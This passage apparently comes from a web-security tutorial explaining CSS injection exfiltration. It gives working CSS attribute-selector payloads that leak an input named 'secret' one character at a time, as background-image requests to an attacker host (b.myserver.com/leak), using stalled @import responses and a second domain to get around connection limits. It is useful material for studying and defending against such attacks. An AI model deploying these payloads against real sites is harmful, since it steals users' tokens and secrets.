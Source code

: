 Here's the key: although we import 8 at once, the server will hang for the next 7 requests and not provide a response. Only the first URL `https://myserver.com/payload?len=1` will return a response, which contains the previously mentioned data theft payload:

``` css
input[name="secret"][value^="a"] {
  background: url(https://b.myserver.com/leak?q=a)
}

input[name="secret"][value^="b"] {
  background: url(https://b.myserver.com/leak?q=b)
}

input[name="secret"][value^="c"] {
  background: url(https://b.myserver.com/leak?q=c)
}

//....

input[name="secret"][value^="z"] {
  background: url(https://b.myserver.com/leak?q=z)
}
```

When the browser receives the response, it will load the CSS snippet above. After loading, the elements that meet the conditions will send requests to the backend. Let's assume the first character is 'd.' Then, at this point, the server responds with the content of `https://myserver.com/payload?len=2`:

``` css
input[name="secret"][value^="da"] {
  background: url(https://b.myserver.com/leak?q=da)
}

input[name="secret"][value^="db"] {
  background: url(https://b.myserver.com/leak?q=db)
}

input[name="secret"][value^="dc"] {
  background: url(https://b.myserver.com/leak?q=dc)
}

//....

input[name="secret"][value^="dz"] {
  background: url(https://b.myserver.com/leak?q=dz)
}
```

This process continues, repeating these steps, allowing us to send all characters to the server. This relies on the fact that `import` will load already downloaded resources first and then wait for the ones that haven't been downloaded yet.

One important thing to note here is that you'll notice we load styles from the domain `myserver.com`, while the background image's domain is `b.myserver.com`. This is because browsers usually have limitations on the number of requests they can simultaneously load from a single domain. So, if you use only `myserver.com`, you'll find that the requests for background images won't go through as they are blocked by CSS imports.
